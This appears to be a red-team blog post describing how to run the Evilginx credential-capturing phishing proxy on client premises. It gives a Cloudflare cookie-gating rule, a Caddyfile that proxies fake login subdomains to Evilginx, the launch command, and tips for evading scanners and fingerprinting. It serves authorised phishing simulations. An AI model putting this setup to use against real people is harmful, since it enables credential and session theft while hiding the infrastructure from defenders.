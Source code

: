 ```yaml
---
layout: post
title: "Working With Evilginx on premises"
date: 2025-09-24
categories: [phishing, security, opsec, redteam]
tags: [phishing, security, opsec, evilginx, caddy, cloudflare, redirector]
---
```


## TL;DR:

For red-team / phishing exercises where client trust and OPSEC matter, keep captured client data and primary infrastructure on the customer’s own servers (on-prem). Use cloud assets only for thin redirectors/fronts (Cloudflare, Workers, CDNs). Below: Cloudflare → Caddy (edge reverse proxy, internal TLS) → Evilginx (on-prem inside a Tailnet). Cloudflare firewall rule, Caddyfile, Evilginx command and hardening checklist included.

![](/img/diagram_202509.png)

## Why keep client data on the client’s servers (and cloud only for redirectors)

- **Data ownership & legal footprint.** Storing captured credentials/session tokens on client-owned infrastructure avoids moving sensitive material into third-party cloud accounts, reducing legal risk and evidence sprawl.  
- **Containment & auditability.** If logs / captures remain inside the client environment, it’s easier to scope, audit, and destroy them after the exercise.  
- **Operational security.** Cloud fronting (redirectors) can be churned, scaled, and automated while the sensitive back-end is isolated on a private network (VPN / Tailscale / Headscale).


## High-level architecture (what I run)

1. **Cloudflare (public front / redirectors):** DNS + WAF + Redirection rules. Handles TLS to the public and performs cookie checks / redirects so only valid flows reach the phishing surface. Cloud assets are intentionally thin — nothing sensitive is stored there.  
2. **Caddy on an edge server (client-owned):** Terminates TLS with internal/self-signed certs, removes cloud IOCs, and reverse proxies traffic into the private Tailnet. Caddy logs to local files for traceability.  
3. **Tailnet (Headscale/Tailscale):** Private network connecting the Caddy host and the internal evilginx host; avoids exposing evilginx IPs to the public internet.  
4. **Evilginx (on-prem):** Runs inside the tailnet, receives proxied connections on 443, and performs the AiTM/credential capture. Captured data is stored only on the client servers and is accessible only from inside the tailnet.


## The Cloudflare firewall rule I use (cookie gating)

I gate access to the phishing portal by setting a cookie on a benign landing domain. If the cookie is missing, Cloudflare redirects the request away from the portal, this reduces bot hits and automated scanning.

Redirection Rule in Cloudflare:

```
(http.host eq "portal.iamphishy.com")
and (not http.cookie contains "danito=fd6972f3079dbadb191619fe90a40af6")
and not (http.host eq "landing.iamphishy.com" and http.request.uri.path eq "/favicon.ico")
```

**Explanation**

- If the host is `portal.iamphishy.com` **and** the specific cookie is not present → trigger the redirect action.  
- We exempt the landing domain’s favicon so asset requests won’t trigger the redirect loop.  
- Using cookies for gating reduces automated scanners and lets only flows that reached the benign landing continue.


## The Caddyfile

```
# Redirect direct IP access to a harmless site (security measure)
1.2.3.4 {
	redir https://not-harmful.com{uri} permanent
}

landing.iamphishy.com {
	log {
		output file /var/log/caddy/landing_access.log
		format console
	}
	tls internal
	encode gzip
	# Apache/nginx in localhost
	reverse_proxy http://127.0.0.1:8000
}

portal.iamphishy.com {
	log {
		output file /var/log/caddy/portal_access.log
		format console
	}
	tls internal
	encode gzip
	reverse_proxy https://evilginx:443 {
		transport http {
			versions 1.1
			tls_insecure_skip_verify
			tls_server_name portal.iamphishy.com
		}
		header_up Host portal.iamphishy.com
		header_up X-Forwarded-Proto https
	}
}

cdn.iamphishy.com {
	log {
		output file /var/log/caddy/cdn_access.log
		format console
	}
	tls internal
	encode gzip
	reverse_proxy https://evilginx:443 {
		transport http {
			versions 1.1
			tls_insecure_skip_verify
			tls_server_name cdn.iamphishy.com
		}
		header_up Host cdn.iamphishy.com
		header_up X-Forwarded-Proto https
	}
}

login.iamphishy.com {
	log {
		output file /var/log/caddy/login_access.log
		format console
	}
	tls internal
	encode gzip
	reverse_proxy https://evilginx:443 {
		transport http {
			versions 1.1
			tls_insecure_skip_verify
			tls_server_name login.iamphishy.com
		}
		header_up Host login.iamphishy.com
		header_up X-Forwarded-Proto https
	}
}
```

**Notes on this file**

- **IP-based redirection:** The `1.2.3.4` block redirects direct IP access to `not-harmful.com`. This prevents scanners and bots from fingerprinting your infrastructure when they access your server's IP directly instead of using domain names. Replace `1.2.3.4` with your actual server's IP address.
- `tls internal` uses Caddy's internal CA (keeps certs off public Let's Encrypt chain and reduces external IOCs).  
- `tls_insecure_skip_verify` is used because the backend (`evilginx`) runs with self-signed certs inside the tailnet — acceptable if the transport is private and access is controlled.  
- Per-vhost logging gives traceability and helps post-exercise cleanup.


## How I run Evilginx (exact command)

Run Evilginx on the internal node like this:

```bash
./evilginx2 -p ./phishlets -t ./redirectors -developer -debug
```

- `-p ./phishlets` → phishlets directory  
- `-t ./redirectors` → redirectors directory (your redirector scripts)  
- `-developer -debug` → developer/debug flags useful during build/testing (reduce verbosity for production).  

**Important:** Evilginx must be reachable **only** from inside the tailnet; do not publish its IP to public DNS.


## Practical hardening & OPSEC checklist

1. **Never expose evilginx IPs in public DNS.** Use private networking (Tailscale/Headscale) or internal hostnames so public scans don’t fingerprint your infrastructure.  
2. **Keep sensitive data on client servers only.** Redirectors must not store or log captured credentials. Only the on-prem evilginx host stores captures.  
3. **Harden redirectors:** rotate domains, use short TTLs, and deploy multiple ephemeral redirectors (Cloudflare Workers are useful for ephemeral logic).  
4. **WAF / firewall rules for gating:** use cookie checks, IP allowlists, or UA validation to reduce bot/scan noise before traffic reaches your landing.  
5. **Log separation & retention:** keep access logs on Caddy and capture logs on the evilginx host. Define and document retention & secure deletion procedures before the engagement.  
6. **Avoid fingerprints:** don’t use predictable subdomain patterns, identical TLS fingerprints across many domains, or public cert chains that create IOCs.  


## Why this pattern works (short)

- Cloud fronting gives resilience, automation and a human-facing surface that’s easy to change.  
- Caddy + internal TLS acts as an OPSEC buffer and central logging point owned by the client.  
- Tailnet isolates the capture server and prevents public fingerprinting of the backend.  

This split (public redirector / private capture) is standard in professional red-team designs.


## Next posts (planned)

In follow-ups I will publish:

- Redirector code examples (Cloudflare Worker / lightweight redirector snippets).  
- The `.htaccess` tweaks and anti-bot measures used on `landing.iamphishy.com`.  

This post explains the **operational design** of running Evilginx on-premises, it is not a full step-by-step Evilginx setup.
